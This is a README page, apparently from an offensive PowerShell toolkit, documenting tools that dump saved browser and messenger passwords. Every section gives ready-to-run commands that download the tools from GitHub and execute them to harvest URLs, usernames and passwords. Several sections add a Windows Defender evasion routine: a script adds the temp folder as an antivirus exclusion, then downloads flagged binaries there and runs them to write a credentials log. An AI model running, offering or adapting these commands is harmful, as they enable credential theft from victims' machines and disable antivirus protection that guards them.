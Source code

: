 ## DumpChromePasswords.ps1

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|DumpChromePasswords|dumps URLs, usernames, and passwords from Chrome.|User Land|Only dumps chrome browser|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/DumpChromePasswords.ps1" -OutFile "DumpChromePasswords.ps1"
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/sqlite-netFx40-static-binary-bundle-x64-2010-1.0.113.0.zip" -OutFile "sqlite-netFx40-static-binary-bundle-x64-2010-1.0.113.0.zip"
```
<br />

**prerequisites:**
``` 
   1. You must have the System.Data.SQLite.dll handy (see below)
   2. Your database must be accessible (close Chrome, or make some copy)
   3. It must by your database. If Chrome cannot open it, the script will probably fail as well.
```

<br />

**execute:**
```powershell
.\DumpChromePasswords.ps1
```

<br />


## HarvestBrowserPasswords.exe

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|HarvestBrowserPasswords|dumps URLs, usernames, and passwords from major browsers.|User Land|Dumps major browsers|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/HarvestBrowserPasswords.exe" -OutFile "HarvestBrowserPasswords.exe"
```

<br />

**execute:**
```powershell
.\HarvestBrowserPasswords.exe -a, --all
.\HarvestBrowserPasswords.exe -f, --firefox
.\HarvestBrowserPasswords.exe -c, --chrome
```

<br />

## ChromePass.exe
   
|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|ChromePass|dumps usernames, passwords from chrome|Administrator|[Invoke-Exclusions.ps1](https://github.com/r00t-3xp10it/redpill/tree/main/lib/WD-Bypass#module-name) - Evade AV\Download PE\Exec PE|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.ps1" -OutFile "Invoke-Exclusions.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name "WinDefend")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")

#Make sure required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Get-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Set-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Remove-MpPreference")
```

<br />

**execute:**
```powershell
#Get Exclusions List
.\Invoke-Exclusions.ps1 -action "query"

## Add exclusion Path + Download URI PE + Execute PE
# 1º - Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
# 2º - Iwr -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -OutFile "$Env:TMP\ChromePass.exe"
# 3º - cd $Env:TMP; .\ChromePass.exe /stext credentials.log
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionPath" -Exclude "$Env:TMP" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"

#Remove ExclusionPath "$Env:TMP" from Windows Defender list
.\Invoke-Exclusions.ps1 -action "del" -type "ExclusionPath" -Exclude "$Env:TMP"
```

<br />

**Final Notes**
```
ChromePass.exe standalone executable its flagged by AV as malicious, thats why we are executing Invoke-Exclusions cmdlet.
The trick consistes in adding %TMP% directory to WD ExclusionPath, then Download\Execute ChromePass.exe from that location.

Invoke-Exclusions.ps1 cmdlet will take care of adding the exclusion, download PE, execute PE (ChromePass.exe).
Warning: Invoke-Exclusions will 'NOT' delete itself or ChromePass.exe (deliver by -Uri parameter) at the end of execution.
```

<br />

## WebBrowserPassView.exe
   
|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|WebBrowserPassView|dumps usernames, passwords from major browsers|UserLand|[Invoke-Exclusions.ps1](https://github.com/r00t-3xp10it/redpill/tree/main/lib/WD-Bypass#module-name) - Evade AV detection<br />[WebBrowserPassView - nirsoft](https://www.nirsoft.net/utils/web_browser_password.html)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/WebBrowserPassView.exe" -OutFile "WebBrowserPassView.exe"
```

<br />

**execute:**
```powershell
.\WebBrowserPassView.exe
```

<br />

**Final Notes**
```
WebBrowserPassView.exe standalone executable its flagged by AV as malicious, thats why we are executing Invoke-Exclusions cmdlet.
The trick consistes in adding %TMP% directory to WD ExclusionPath, then Download\Execute WebBrowserPassView.exe from that location.

Invoke-Exclusions.ps1 cmdlet will take care of adding the exclusion, download PE, execute PE (WebBrowserPassView.exe).
Warning: Invoke-Exclusions will 'NOT' delete itself or WebBrowserPassView.exe (deliver by -Uri parameter) at the end of execution.
```

<br />

## mspass.exe
   
|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|mspass.exe|dumps usernames, passwords of messenger applications|UserLand|[Invoke-Exclusions.ps1](https://github.com/r00t-3xp10it/redpill/tree/main/lib/WD-Bypass#module-name) - Evade AV detection<br />[mspass - nirsoft](https://www.nirsoft.net/utils/mspass.html)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/mspass.exe" -OutFile "mspass.exe"
```

<br />

**execute:**
```powershell
.\mspass.exe
```

<br />

**Final Notes**
```
mspass.exe standalone executable its flagged by AV as malicious, thats why we are executing Invoke-Exclusions cmdlet.
The trick consistes in adding %TMP% directory to WD ExclusionPath, then Download\Execute mspass.exe from that location.

Invoke-Exclusions.ps1 cmdlet will take care of adding the exclusion, download PE, execute PE (mspass.exe).
Warning: Invoke-Exclusions will 'NOT' delete itself or mspass.exe (deliver by -Uri parameter) at the end of execution.
```
